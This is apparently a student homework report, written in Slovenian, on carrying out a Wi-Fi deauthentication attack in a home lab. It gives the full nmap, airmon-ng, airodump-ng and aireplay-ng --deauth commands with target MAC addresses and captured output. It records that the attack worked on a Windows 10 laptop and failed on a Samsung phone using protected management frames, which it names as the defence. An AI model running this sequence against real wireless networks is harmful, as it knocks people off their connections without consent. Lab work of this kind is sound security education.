


# 3. domača naloga

```
 _              ___ _____ 
| |____      __/ _ \___ / 
| '_ \ \ /\ / / | | ||_ \ 
| | | \ V  V /| |_| |__) |
|_| |_|\_/\_/  \___/____/ 

2. homework for BMO
Author: Lan Vukušič
Date: 6.apr 2022

Deauth attack.
```
  

## Postopek za deautentikacijo

- poiščemo mac naslove tarče ter AP-ja
  - `sudo nmap 192.168.252.52/24`
  

``` Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-10 13:47 CEST
Nmap scan report for _gateway (192.168.252.52)
Host is up (0.0044s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain
MAC Address: 8E:9C:2E:44:BE:EE (Unknown)

Nmap scan report for 192.168.252.105
Host is up (0.017s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
8500/tcp open  fmtp
9080/tcp open  glrpc
MAC Address: 0A:6A:9D:8C:45:87 (Unknown)

Nmap scan report for 192.168.252.134
Host is up (0.015s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5357/tcp open  wsdapi
MAC Address: B0:FC:36:D0:99:3B (CyberTAN Technology)

Nmap scan report for lan-XPS (192.168.252.252)
Host is up (0.000010s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (4 hosts up) scanned in 57.02 seconds

```

Mac tarče: **B0:FC:36:D0:99:3B**
MAC ap-ja: **8E:9C:2E:44:BE:EE**

- Kartico damo v monitoring mode
  - Ubijemo konfliktne procese
    - `sudo airmon-ng check kill`
  - Zaženemo wirodump-ng, za zajem paketov
    - `sudo airodump-ng -c 11 --bssid 8E:9C:2E:44:BE:EE wlan0mon -w wn`
- Zaženemo aireply-ng
  - `sudo aireplay-ng --deauth 100 wlan0mon -a 8E:9C:2E:44:BE:EE -c B0:FC:36:D0:99:3B`
- Ko se napad zaključi lahko ugasnemo **airodump-ng**, ki zgenerira .cap paket
- .cap paket odpremo z wiresharkom
  - `wireshark wn-01.cap`



- Označeni so deavtentikacijski paketi.

## Uspešnost napada

Napad je bil uspešen saj je prenosnik (tarča) me napadom izgubila internetno povezavo.
Zavarujemo se lahko z zaščitenimi **management okvirji**

## Poskus napada na zaščiteno dostopno točko

Samsung telefon A71 podpira zaščito **management frame-ov** na dostopnih točkah.  

### poskus napada na widnwos10 laptop

Po izvedenem napadu na dostopno točko, je tarči **vseeno** padla internetna povezava (??)  
Predvidevam da se je to zgodilo, ker tarča na windows10 sistemu, zaščitenih okvirjev ne podpira.

### poskus napada na samsung S20-FE

Tarčo sem izbral za to, ker ima isto programsko opremo kot moj telefon. Predivdeval sem, da poddpira povezavo z zaščitenimi okvirji, če lahko postavi tako dotopno točko.  

Hipotezo sem testiral tako, da sem isti napad ponovil. Napad je bil izveden na MAC naaslov **0A:6A:9D:8C:45:87**  

```
 CH 11 ][ Elapsed: 2 mins ][ 2022-04-10 14:43 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH 

 8E:9C:2E:44:BE:EE  -43  11     1557    12053  238  11  180   WPA2 CCMP   PSK  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Pro

 8E:9C:2E:44:BE:EE  0A:6A:9D:8C:45:87  -49    1e- 6e     0    16047             
 8E:9C:2E:44:BE:EE  B0:FC:36:D0:99:3B  -47    0e- 6e     0    11931             
 (not associated)   70:2E:D9:17:AB:12  -89    0 - 1      0       10             
```

Napad ni bil uspešen. Napravaa ni izgubila internetne povezave. Poslani paketi so vidni iz naslednjega zajema ekrana.


